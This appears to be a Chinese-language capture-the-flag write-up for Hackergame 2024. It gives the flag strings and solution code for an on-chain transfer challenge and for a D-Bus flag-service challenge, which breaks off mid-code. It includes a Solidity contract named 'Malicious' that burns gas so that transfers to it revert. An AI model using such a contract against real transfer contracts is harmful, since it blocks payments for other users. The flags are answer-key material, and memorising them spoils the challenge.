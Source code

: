# 链上转账助手

1

![image.png](HackerGame2024+d7a78663-e26b-4866-b8d5-dfce1d0f52d7/image 30.png)

flag{Tr4nsf3r_T0_c0nTracT_MaY_R3v3rt_feafb80208}

2

```Plain Text
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Malicious {
    receive() external payable {
        // 消耗尽可能多的 gas
        for (uint256 i = 0; i < 1000000; i++) {
            // 执行无操作循环，消耗 gas
            // 你也可以在这里加入更多的计算以消耗更多的 gas
            uint256 temp = i * i;
        }
    }
}

```

![image.png](HackerGame2024+d7a78663-e26b-4866-b8d5-dfce1d0f52d7/image 31.png)

flag{Ple4se_L1m1t_y0uR_GAS_HaHa_9a6996f0ab}

3

```Plain Text

```

# 不太软的分布总线

本题全是o1帮我生成的（）

```Plain Text
#include <gio/gio.h>
#include <stdio.h>
#include <stdlib.h>

#define DEST "cn.edu.ustc.lug.hack.FlagService"
#define OBJECT_PATH "/cn/edu/ustc/lug/hack/FlagService"
#define METHOD "GetFlag1"
#define INTERFACE "cn.edu.ustc.lug.hack.FlagService"

int main() {
    GError *error = NULL;
    GDBusConnection *connection;
    GVariant *result;

    // 连接到系统总线
    connection = g_bus_get_sync(G_BUS_TYPE_SYSTEM, NULL, &error);
    if (!connection) {
        g_printerr("无法连接到系统总线: %s\n", error->message);
        g_error_free(error);
        return EXIT_FAILURE;
    }

    // 创建参数，传递字符串 "Please give me flag1"
    GVariant *params = g_variant_new("(s)", "Please give me flag1");
```